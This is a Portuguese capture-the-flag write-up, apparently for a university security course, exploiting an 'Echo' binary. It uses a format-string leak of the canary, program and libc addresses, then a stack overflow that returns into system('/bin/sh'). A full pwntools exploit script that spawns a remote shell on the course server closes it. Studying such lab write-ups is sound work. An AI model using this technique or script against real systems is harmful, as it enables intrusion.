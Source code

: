 # Echo

  Inicialmente, este desafio fornece 2 ficheiros: "program" e "libc.so.6". O programa principal parece comportar-se como o comando "echo" do linux, deixando-nos introduzir um nome que, supostamente, só pode ter 20 carateres e uma mensagem. Vamos começar por averiguar se estes campos sofrem de algum tipo de vulnerabilidade string format:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/2dd6b9c2-d7f4-4f24-bbcf-1172252f13d8)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/dcd8df38-203e-4018-b8bb-84158b25e450)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/18ff133a-f6be-4656-b3b5-2c339b3440e0)

  Ao que parece, apenas o campo do nome é vulnerável a string format, não parecendo existir problemas no campo da mensagem. Porém, este não parece ser o único problema do programa. Na segunda imagem conseguimos ver que o campo do nome não está limitado a 20 carateres, mas sim a 99 + 1 (99 chars + '\0'), e, quando são inseridos 20 ou mais carateres, o programa parece deixar de funcionar corretamente (imagem 3).
  
  Antes de prosseguir, vamos ver que medidas de segurança estão ativas no programa:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/4d2f2f33-1f3e-48d7-a088-84c16cb93e16)

  Pelos vistos temos proteção máxima. Isso explicaria o fenómeno anterior: quando são inseridos 20 ou mais carateres, o programa deve estar a dar overwrite aos canários, causando stack smashing e interrompendo as funções normais do programa. Para além disso, a possibilidade de fazer um ataque semelhante ao do Final Format foi descartada devido a existir Full RELRO, incapacitando um GOT (Global Offset Table) overwrite, restando-nos ROP (Return Oriented Programming).
  
  Dadas as nossas hipóteses, vamos agora dividir o nosso esquema em passos para ser mais fácil de seguir:

## 1. Debugging

  O primeiro passo e mais importante é debug. Tendo em conta as restrições que vimos anteriormente, vamos começar por entender como é o layout da memória virtual do programa, já que esta pode variar a cada execução devido ao PIE estar ligado:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/ab63c395-3f8b-485e-9215-fedbfb009546)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/1b82e2c1-076f-4b18-9797-336f7ec22e82)
  (Nota: Deve-se iniciar o gdb com a opção LD_LIBRARY_PATH=$PWD para podermos usar "libc.so.6" em vez da biblioteca guardada no sistema)
  
  Apesar de não ser percetível pelas imagens, o programa começa a ser executado em 0x56555000 e acaba em 0x5655a000. Já a libc ocupa os endereços 0xf7d94000 a 0xf7fbf000:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/8098a5d1-b5cf-496f-9b7b-b70e30d54f97)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/12a7d484-20b4-4805-9d5d-a4c3154ed382)

  Vamos agora recorrer a um site que já usámos no desafio de Final Format para visualizar o código de uma maneira mais legível e tentar entender o que se está a passar:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/df483fda-971c-4813-9cba-6eeba9b0e76f)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/5feac0d5-371e-40a4-9243-ccda6d6445d5)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/358cf07b-a13a-4b82-80c9-ac128919c62a)

  Do código acima conseguimos observar detalhes interessantes: o nome é guardado para uma variável de tamanho 20, apesar de serem lidos 100 carateres e a mensagem é lida para um buffer com 100 carateres, sendo este buffer uma variável global. Tendo em conta estas informações, uma maneira de realizar este ataque seria substituir o return address na main para a função system, dando-lhe como argumento a shell que ficaria guardada na mensagem. Para isso precisaremos de lidar com o canário.
  
## 2. Canário

  Queremos descobrir o endereço do canário no momento em que o nome vai ser escrito, visto que este é o ponto onde vamos dar overflow. Para realizar esta e tarefas futuras, vamos usar uma versão mais avançada do gdb: o gef. Começemos então por localizar o canário:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/a67ad1e5-73da-4e34-8a40-0bb4c549fc65)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/25da9190-1b6d-4f0a-bdc4-152d58a9cd7e)
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/478f1353-3306-43b3-9352-be58df2eca24)

  Ao dar break e avançar para o segundo printf, parámos imediatamente antes do pedido pelo nome. Neste instante, conseguimos ver que o canário toma o valor 0xce574100 no endereço 0xffffd190, o que significa que +0x0020 / 4 = 32/4 = 8 -> %8$x é o valor ideal para expor o valor do canário. Com o endereço do canário descoberto, podemos prosseguir para a mudança do return address.
  
## 3. Return

  Como vamos querer dar return para a função system(), precisamos de descobrir o seu endereço em memória primeiro. Para tal, podemos recorrer ao comando "readelf -s libc.so.6 | grep system":
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/d8b889fb-0eea-4c7f-8b92-de28e50bf3b0)

  Do resultado acima, concluímos que a função localiza-se a um offset de 48150 do início da libc. Porém, ainda precisamos de saber a localização do endereço base da libc. Como o PIE está ligado, este endereço estará sempre a variar. Para saber a sua localização, podemos tirar proveito do break para o printf do nome que usámos anteriormente:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/fcc00690-eb2f-4fab-b236-1e4abfae8a12)

  Esta imagem é semelhante à do printf que usámos anteriormente. Podemos ver que o valor de $ebp situa-se a um offset de +0x0028, revelando assim que o return situa-se a um offset de +0x002c quando o programa chega ao printf. O formatador a usar será %11$x. Quanto ao offset, temos apenas que calcular a distância entre o endereço base da libc e o printf (0xf7de4ee5 - 0xf7dca000 = 0x0001aee5).
  
  Precisamos agora do endereço do buffer para passar a shell como argumento à função system(). Para isso, vamos precisar do endereço base da main, que pode ser obtido pelo seu offset:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/52f505af-ff19-487f-a521-918fbe90ade3)

  Pela imagem, conseguimos ver que a main situa-se a um offset de +0x00a0 da printf do nome, sendo assim possível ir buscar o seu endereço a %40$x. Adicionalmente, como sabemos, neste caso, que o endereço base da main é 0x56555000, uma simples conta que descobre o seu offset seria 0x565562ad - 0x56555000 = 0x000012AD. Com isto, temos a localização do endereço base.
  
## 4. Organização

  Com todos os valores calculados, vejamos a organização necessária:
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/cdf2e30a-f4be-4500-967c-d85efafca1d4)

  Como os valores vão ser escritos têm que ser relativos à localização do buffer do nome (0xffffd15c), vemos que, neste instante, temos que alterar o valor do return no offset +0x0020 (32 bytes), inserir o argumento para a função system a +0x0024 (36 bytes) e manter o valor do canário inalterado a +0x0014 (20 bytes).
  
## 5. Exploit

  Só resta reunir tudo num script python e testar:
  
    from pwn import *

    def leak_canary(proc):
        payload = b"%8$x"
        proc.sendlineafter(b">", b"e")
        proc.sendlineafter(b":", payload)
        canary = proc.recvline(keepends=False)
        proc.sendlineafter(b":", b"")
        return int(canary, 16)

    def leak_main_addr(proc):
        payload = b"%17$x"
        proc.sendlineafter(b">", b"e")
        proc.sendlineafter(b":", payload)
        addr = proc.recvline(keepends=False)
        proc.sendlineafter(b":", b"")
        return int(addr, 16)

    def leak_libc_addr(proc):
        payload = b"%11$x"
        proc.sendlineafter(b">", b"e")
        proc.sendlineafter(b":", payload)
        addr = proc.recvline(keepends=False)
        proc.sendlineafter(b":", b"")
        return int(addr, 16)

    program = ELF("./program")
    libc = ELF("./libc.so.6")

    r = remote("ctf-sp.dcc.fc.up.pt", 4002)

    canary = leak_canary(r)
    info(f"Canary leaked!\n! {hex(canary)}")

    main_addr = leak_main_addr(r)
    program_base_addr = main_addr - program.symbols["main"]
    info(f"Program base address leaked!\n! {hex(program_base_addr)}")
    buffer_addr = program_base_addr + program.symbols["buffer"]

    libc_addr = leak_libc_addr(r)
    libc_base_addr = libc_addr - 0x00021519 # value obtained using GDB

    info(f"Libc base address leaked!\n! {hex(libc_base_addr)}")
    system_addr = libc_base_addr + libc.symbols["system"]

    info(f"Ret addr: {hex(system_addr)}")
    info(f"Ret arg addr: {hex(buffer_addr)}")

    payload = b"A" * 20 + p32(canary) + b"\0" * 8 + p32(system_addr) + b"\0" * 4 + p32(buffer_addr)
    info(f"Payload: {payload}")

    r.sendlineafter(b">", b"e")
    r.sendlineafter(b":", payload)
    r.sendlineafter(b":", b"/bin/sh\0")
    r.sendlineafter(b">", b"q")

    r.interactive()
    
  (Nota: Foram feitas 2 correções a valores que não tinham sido devidamente calculados. Foram usados na mesma os métodos descritos acima)
  
  ![imagem](https://github.com/DCC-FCUP-SP/sp2223-t01g03/assets/126570489/b439376d-9b73-4fea-8bb7-4a3f33c7cd8c)
